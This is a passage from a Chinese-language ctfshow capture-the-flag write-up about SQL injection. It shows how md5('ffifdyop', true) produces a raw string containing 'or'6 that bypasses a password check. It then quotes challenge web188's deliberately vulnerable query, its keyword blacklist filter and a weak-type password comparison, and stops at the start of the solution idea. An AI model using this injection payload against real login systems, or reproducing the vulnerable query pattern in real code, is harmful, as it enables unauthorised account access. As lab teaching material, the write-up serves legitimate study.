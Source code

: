 当我们看看 md5( "ffifdyop",true) 的结果

```
<?php
echo md5( "ffifdyop",true);
?>
```

```
'or'6ɝ驡r,魢
```

带入到 sql 语句，'or'6 直接会输出所有的 count(*)

```
$sql = "select count(*) from ctfshow_user where username = '$username' and password= ''or'6ɝ驡r,魢'";
```

## web188

### 题目

查询语句

```
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username}";
      
```

返回逻辑

```php
  //用户名检测
  if(preg_match('/and|or|select|from|where|union|join|sleep|benchmark|,|\(|\)|\'|\"/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }
  //密码判断
  if($row['pass']==intval($password)){
      $ret['msg']='登陆成功';
      array_push($ret['data'], array('flag'=>$flag));
    }      
```

### 思路

$row['pass']==intval($pass word) 为**弱类型比较**
